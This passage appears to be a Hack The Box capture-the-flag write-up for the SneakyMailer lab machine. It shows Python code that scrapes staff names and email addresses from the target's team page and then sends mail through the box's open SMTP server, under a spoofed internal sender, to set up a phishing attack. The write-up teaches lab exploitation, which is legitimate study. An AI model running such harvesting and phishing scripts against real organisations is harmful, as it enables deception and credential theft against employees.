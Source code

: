 #### Parsing data with beautifulsoup

We can quickly write a python script that gives us the table as a list of elements.

```python
import requests
from bs4 import BeautifulSoup

def get_data():
    # Get HTML
    html = requests.get('http://sneakycorp.htb/team.php',timeout=10).text
    soup = BeautifulSoup(html, 'html.parser')
    data = []

    # Relevant data is the in td elements
    [data.append([td.text for td in tr.find_all('td')]) for tr in soup.find('table').find('tbody').find_all('tr')]
    """ # Above line expanded
    table = soup.find('table')
    tbody = table.find('tbody')
    for tr in tbody.find_all('tr'):
        data.append([td.text for td in tr.find_all('td')])
    """
    
    return data
```

This gives us following output:

```python
[['Tiger Nixon', 'System Architect', 'Edinburgh', 'tigernixon@sneakymailer.htb'], ['Garrett Winters', 'Accountant', 'Tokyo', 'garrettwinters@sneakymailer.htb'], ['Ashton Cox', 'Junior Technical Author', 'San Francisco', 'ashtoncox@sneakymailer.htb'], ...]
```

Now we can write a function to parse the data and have a list of usernames and emails.

```python
def parse_data(data):
    names = []
    mails = []
    for name, position, office, mail in data:
        names.append(mail.split('@')[0]) # Username = first part of email
        mails.append(mail)
    return names, mails
```

Now we have a list with usernames and emails. As SMTP is open, we can send messages to the addresses and try to launch a phishing attack.

#### Phishing attack

For the phishing attack, we can simply expand our python script with a function to send emails to a specified recipient with a specified message.

```python
def send_mail(mail, msg):
    try:
        smtp = smtplib.SMTP('10.10.10.197')
        smtp.sendmail("chronos@sneakymailer.htb", mail, msg)
    except Exception as ex:
        print(f"[-] Error: {ex}!")
```
